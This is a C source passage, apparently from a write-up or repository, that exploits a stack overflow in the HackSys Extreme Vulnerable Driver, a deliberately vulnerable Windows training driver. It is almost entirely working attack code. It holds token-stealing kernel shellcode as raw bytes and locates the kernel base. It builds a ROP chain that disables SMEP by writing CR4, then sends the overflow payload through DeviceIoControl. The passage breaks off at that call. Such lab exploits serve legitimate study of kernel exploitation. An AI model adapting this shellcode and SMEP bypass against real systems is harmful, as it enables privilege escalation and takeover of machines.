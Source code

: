 ```c
PVOID GetKernelBaseAddress() {
	LPVOID drivers[1024] = { 0 };
	DWORD cbNeeded;
	EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
	return drivers[0];
}

int main(void) {

	u8 token_steal[] = {
	  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80,
	  0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d, 0x8b, 0x80, 0x48, 0x04,
	  0x00, 0x00, 0x49, 0x81, 0xe8, 0x48, 0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88,
	  0x40, 0x04, 0x00, 0x00, 0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b,
	  0x88, 0xb8, 0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
	  0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	  0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89,
	  0x88, 0xe4, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00,
	  0x48, 0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01,
	  0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
	  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48, 0x0f, 0x07 };

	u64 kernelBase = (u64)GetKernelBaseAddress();
	if (kernelBase == 0x00) return 1;

	const u64 POP_RCX     = kernelBase + 0x9b2952; // pop rcx; ret;
	const u64 MOV_CR4_RCX = kernelBase + 0x9aa31b; // mov cr4, rcx; ret;

	HANDLE hDriver = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	if (hDriver == INVALID_HANDLE_VALUE) return 1;

	const u64 offset = 2072;
	const u64 payloadSize   = 2500;
	const u64 shellcodeSize = 4096;

	LPVOID payload   = VirtualAlloc(NULL, payloadSize,   MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	LPVOID shellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	if (!payload || !shellcode) return 1;

	memset(payload, '\x41', payloadSize);
	memcpy(shellcode, token_steal, sizeof(token_steal));

	u64* rop = (u64*)((u64)payload + offset);

	//*(u64*)((u64)payload + offset) = (u64)shellcode;
	u64 index = 0;
	*(rop + index++) = POP_RCX;
	*(rop + index++) = 0xb50ef8 ^ 1UL << 20;
	*(rop + index++) = MOV_CR4_RCX;
	*(rop + index++) = (u64)shellcode;

	DeviceIoControl(
```